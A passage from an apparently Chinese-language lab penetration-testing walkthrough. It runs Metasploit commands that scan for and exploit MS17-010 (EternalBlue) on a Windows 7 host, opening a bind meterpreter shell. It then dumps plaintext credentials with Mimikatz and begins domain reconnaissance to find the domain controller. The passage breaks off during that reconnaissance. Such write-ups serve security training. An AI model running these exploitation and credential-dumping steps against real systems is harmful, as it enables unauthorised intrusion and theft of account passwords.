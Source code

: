 ### MS17-010 漏洞探测与利用

```
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 10.0.1.7
```

![](https://s2.loli.net/2021/12/25/Mx7V4XuLn9gImwy.png)

目标主机`win7`确实存在`永恒之蓝`漏洞

接下来我们继续使用`MSF`的模块进行漏洞利用，由于目标机器不一定出网，我们选择用正向连接的`payload`

```
use windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 10.0.1.7
run
```

<img src="https://s2.loli.net/2021/12/25/wMnTPC3NlLJ9AgK.png" style="zoom: 80%;" />

成功获得一个`meterpreter`

![](https://s2.loli.net/2021/12/25/jDzbevUSNAP1LVu.png)

拿到 `Win7` 权限后加载 `Mimikatz` 抓取明文密码

```
load mimikatz
creds_all
```

![](https://s2.loli.net/2021/12/25/K7d4GxDLbOzhECN.png)

此时我们得到了一个域用户的账号密码

## 域渗透

### 域内信息收集

```
hostname
net user /domain
ipconfig
```

![](https://s2.loli.net/2021/12/25/wLe1nTbmszfFRSu.png)

![](https://s2.loli.net/2021/12/25/P4INuV6HBbDZhaR.png)

发现`win7`还有一个内网网卡，接着我们需要定位域控

```
net group "Domain Controllers" /domain
ping DC
```
